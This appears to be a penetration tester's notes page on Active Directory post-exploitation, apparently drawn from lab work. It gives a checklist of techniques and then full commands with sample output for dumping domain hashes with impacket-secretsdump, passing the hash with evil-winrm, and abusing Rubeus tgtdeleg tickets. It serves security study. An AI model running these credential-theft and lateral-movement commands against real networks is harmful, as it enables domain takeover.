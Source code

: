 # Post-Exploitation

You should approach to first machine in AD as regular standalone windows machine. Lateral movement or privilege escalation as well.

You can do post exploitation steps as follows:

Check groups where the user is in. Check the user in some privileged group.

Check another users in the domain.

Search files in the system for finding passwords, important notes and information, mail etc.

Check services on the system.

Some services contains cleartext passwords, hashes in some files.

Extract hashes, secrets, kerberos tickets with mimikatz etc. (requires system shell)

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

Try pass the hash methods like using psexec or crackmapexec from impacket, evil-winrm, xfreerdp etc. (If the target user has not Administrator rights, you cannot get shell with impacket).

Try cracking extracted hashes.

{% content-ref url="../password-cracking/" %}
[password-cracking](../password-cracking/)
{% endcontent-ref %}

Check SPNs. If there is SPN in system, try extract and crack it.

{% content-ref url="../active-directory/exploitation/kerberoasting.md" %}
[kerberoasting.md](../active-directory/exploitation/kerberoasting.md)
{% endcontent-ref %}

Check GMSA. If there is gmsa account in the system, try extract and crack it.

{% content-ref url="../active-directory/exploitation/gmsapasswordread.md" %}
[gmsapasswordread.md](../active-directory/exploitation/gmsapasswordread.md)
{% endcontent-ref %}

If you have cleartext password you can use Spray-Passwords.ps1 to identify the another user is using the same password.

{% content-ref url="broken-reference" %}
[Broken link](broken-reference)
{% endcontent-ref %}

Check the user has capabilities for exploitable GPO.

{% content-ref url="../active-directory/exploitation/gpo-abuse.md" %}
[gpo-abuse.md](../active-directory/exploitation/gpo-abuse.md)
{% endcontent-ref %}

You can try recent AD exploits to get domain admin privileges.



## ****

## Impacket-secretsdump

> We can use another tool within Impacket called "secretsdump.py". This will allow us to retrieve all of the password hashes that a user account (that is synced with the domain controller) has to offer

```
impacket-secretsdump backup@spookysec.local

Impacket v0.10.1.dev1+20220708.213759.8b1a99f7 - Copyright 2022 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
.
.
.
.
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
```

This command dumps SAM hashes using the the Administrator's hash as a PTH method rather than entering a password

```
impacket-secretsdump Administrator@10.11.1.123 -hashes '3fee04b01f59a1001a366a7681e95699:3fee04b01f59a1001a366a7681e95699'
```

## Pass-The-Hash

### Evil-WinRM

> method of attack could allow us to authenticate as the user without the password

```
evil-winrm -i spookysec.local -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```

## Rubeus

{% code overflow="wrap" %}
```bash
# gets tgt of machine account
.\Rubeus.exe tgtdeleg /nowrap
# decode it to .kirbi file
cat b64hash | base64 -d > m.kirbi
# convert ticket to ccache file
impacket-ticketconverter m.kirbi m.ccache
export KRB5CCNAME=`pwd`/m.ccache
klist
# syncronize time just in case
sudo ntpdate -u IP
# dump hashes
impacket-secretsdump domain.local/DC-NAME\$@dc-name.domain.local -dc-ip domain.local -no-pass -k
```
{% endcode %}
